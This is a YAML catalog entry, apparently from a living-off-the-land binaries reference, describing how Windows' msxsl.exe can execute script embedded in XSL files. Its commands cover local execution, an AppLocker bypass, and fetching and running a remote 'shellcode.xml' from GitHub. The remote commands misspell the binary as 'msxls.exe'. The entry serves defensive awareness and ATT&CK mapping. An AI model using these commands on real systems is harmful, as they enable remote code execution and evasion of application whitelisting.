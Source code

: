 ```yaml
---
Name: msxsl.exe
Description: Command line utility used to perform XSL transformations.
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
  - Command: msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows
Full_Path:
  - Path:
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://twitter.com/subTee/status/877616321747271680
  - Link: https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
Acknowledgement:
  - Person: Casey Smith
    Handle: "@subtee"
---
```

